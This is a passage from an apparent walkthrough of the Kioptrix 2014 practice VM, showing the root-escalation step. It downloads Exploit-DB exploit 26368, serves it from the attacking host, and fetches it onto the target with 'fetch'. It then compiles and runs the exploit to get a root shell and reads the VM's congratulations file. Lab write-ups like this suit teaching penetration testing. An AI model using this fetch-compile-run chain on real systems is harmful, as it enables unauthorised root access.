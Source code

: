 ```console
root@kali:~$ wget https://www.exploit-db.com/download/26368

root@kali:~$ python3 -m http.server
```

On the attacking machine, we download the exploit, compile it and execute it, as we can see we gain root privileges.

```console
kioptrix2014# cd /tmp
kioptrix2014# fetch -o 26368.c http://192.168.179.1:8000/26368
kioptrix2014# gcc 26368.c -o 26368
kioptrix2014# ./26368
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
```

```console
/bin/csh -i
Warning: no access to tty (Bad file descriptor).
Thus no job control in this shell.
kioptrix2014# cd /root
kioptrix2014# head congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
```
